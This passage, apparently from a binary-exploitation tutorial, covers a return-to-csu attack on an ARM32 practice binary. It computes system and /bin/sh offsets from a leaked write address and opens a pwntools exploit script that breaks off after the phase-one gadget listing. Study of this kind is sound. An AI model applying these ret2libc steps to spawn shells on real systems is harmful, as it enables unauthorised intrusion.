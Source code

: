 `_system\_offset = 0x60910_`

The same is done for /bin/sh. Both addresses of /bin/sh and write are printed as shown in fig 11 and then their difference gives us the offset. 

<p align="center">
<img src="https://github.com/xetrapwn/xetrapwn.github.io/blob/master/images/return-to-csu_on_ARM32/figure11.png">
<br>
Fig 11 - base addresses of /bin/sh and write functions
</p>

`_binsh\_offset = 0x49814_`

Now we just need to add or subtract them with a leaked write address to find the real addresses.

`_system = (leaked\_write - system\_offset)_`

`_binsh = (leaked\_write + binsh\_offset)_`

The system offset is subtracted because the system function was above the write function. And similarly, /bin/sh offset is added because the write function was above /bin/sh.

All the addresses we need for the payload two are successfully found. Following is the second phase of our exploit.

<p align="center">
<img src="https://github.com/xetrapwn/xetrapwn.github.io/blob/master/images/return-to-csu_on_ARM32/figure12.png">
<br>
Fig 12 - Second phase of exploit
</p>

### **Complete Exploit**

The complete exploit will look something like this.

:::: {.blackbox data-latex=""}
::: {.center data-latex=""}
_#!/usr/bin/env python3_

_from pwn import \*_

_p = process(&#39;bof&#39;)_

_e = ELF(&#39;bof&#39;)_

_#### Phase 01 - Leaking address of write function_

_# gadgets in \_\_libc\_csu\_init_

_# 0x00010492 \&lt;+38\&gt;: mov r2, r9_

_# 0x00010494 \&lt;+40\&gt;: mov r1, r8_

_# 0x00010496 \&lt;+42\&gt;: mov r0, r7_

_# 0x00010498 \&lt;+44\&gt;: blx r3_

_# 0x0001049a \&lt;+46\&gt;: cmp r6, r4_

_# 0x0001049c \&lt;+48\&gt;: bne.n 0x1048c \&lt;\_\_libc\_csu\_init+32\&gt;_
